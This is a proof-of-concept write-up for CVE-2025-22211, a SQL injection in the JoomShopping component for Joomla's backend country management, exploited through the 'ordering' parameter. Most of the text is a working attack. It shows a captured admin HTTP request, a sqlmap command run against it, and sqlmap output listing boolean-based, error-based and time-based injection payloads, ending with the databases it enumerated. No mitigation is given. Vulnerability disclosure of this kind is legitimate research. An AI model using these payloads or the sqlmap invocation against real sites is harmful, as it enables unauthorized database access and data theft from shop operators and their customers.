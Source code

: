 # CVE-2025-22211: SQL injection in JoomShopping for Joomla!

**CVE Link:** https://www.cve.org/CVERecord?id=CVE-2025-22211

**JoomShopping:** https://extensions.joomla.org/extension/joomshopping/

## Introduction
A SQL injection vulnerability in the JoomShopping component versions 1.0.0-1.4.3 for Joomla allows authenticated attackers (administrator) to execute arbitrary SQL commands in the country management area in the backend via the 'ordering' parameter.

## POC
To exploit this vulnerability go to 'JoomShopping >> Options >> Country list >> Country >> Afganistan' and save the save request to a file (req.txt).

![Alt text](5.png)

**HTTP Request:**
```
POST /administrator/index.php?option=com_jshopping&controller=countries HTTP/1.1
Host: localhost:8080
Content-Length: 117
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="133", "Not(A:Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Accept-Language: en-GB,en;q=0.9
Origin: http://localhost:8080
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost:8080/administrator/index.php?option=com_jshopping&controller=countries&task=edit&country_id=1
Accept-Encoding: gzip, deflate, br
Cookie: osColorScheme=dark; atumSidebarState=open; jsst_collapse_admin_menu=1; hikashop_descWidth_cookie=desc_width_small; eae16bf6d45765d2eca64438ea3379fc=2ee59dc8b23af00572d53b871598093e; 70dca465975331b55d5354a973a2cec1=3b1b2a80d6469690df4c88906dde07e4
Connection: keep-alive

country_publish=1&ordering=1&name_en-GB=Afghanistan&country_code=AFG&country_code_2=AF&task=apply&edit=1&country_id=1
```

**Exploit:**
```
ubuntu@host:~$ python3 sqlmap.py -r ~/req.txt --batch --dbs --dbms=mysql -p ordering
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.9.1.2#dev}
|_ -| . [.]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org


---
Parameter: ordering (POST)
    Type: boolean-based blind
    Title: MySQL AND boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)
    Payload: country_publish=1&ordering=1' AND EXTRACTVALUE(8366,CASE WHEN (8366=8366) THEN 8366 ELSE 0x3A END)-- iddH&name_en-GB=Afghanistan&country_code=AFG&country_code_2=AF&task=apply&edit=1&country_id=1

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: country_publish=1&ordering=1' AND GTID_SUBSET(CONCAT(0x716a7a7671,(SELECT (ELT(4079=4079,1))),0x7178716271),4079)-- dRyK&name_en-GB=Afghanistan&country_code=AFG&country_code_2=AF&task=apply&edit=1&country_id=1

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: country_publish=1&ordering=1' AND (SELECT 8740 FROM (SELECT(SLEEP(5)))QDfY)-- knHD&name_en-GB=Afghanistan&country_code=AFG&country_code_2=AF&task=apply&edit=1&country_id=1
---

available databases [3]:
[*] information_schema
[*] joomla_db
[*] performance_schema
```

